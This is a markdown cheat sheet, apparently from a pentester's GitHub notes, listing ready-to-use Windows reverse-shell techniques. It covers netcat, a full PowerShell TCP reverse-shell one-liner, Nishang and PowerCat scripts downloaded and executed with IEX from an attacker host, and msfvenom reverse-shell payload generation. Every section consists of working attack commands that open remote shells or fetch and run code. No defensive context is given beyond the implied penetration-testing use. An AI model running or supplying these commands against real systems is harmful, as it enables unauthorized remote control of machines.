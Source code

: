 # Reverse Shell Cheat Sheet for Windows
## NETCAT
#### On Kali
```bash
cp /opt/pentest/privesc/windows/nc64.exe .
python -m SimpleHTTPServer 80
rlwrap nc -lvnp 9001
```
#### On WIndows
```bat
\\10.10.10.10\kali\nc64.exe -nv 10.10.10.10 9001 -e cmd.exe
```

## Powershell (Ne marche pas avec la base64)
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.109',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Nishang
#### On Kali
```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
echo "Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 9001" >> Invoke-PowerShellTcp.ps1
python -m SimpleHTTPServer 80
rlwrap nc -lvnp 9001
``` 
#### On Windows
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/Invoke-PowerShellTcp.ps1')"
```

## MSFVenom
```bash
# x86	
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## PowerCat
#### On Kali
```bash
python -m SimpleHTTPServer 80
rlwrap nc -lvnp 9001
```
### On Windows
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109:8000/powercat.ps1');powercat -c 192.168.1.109 -p 9001 -e cmd"
```

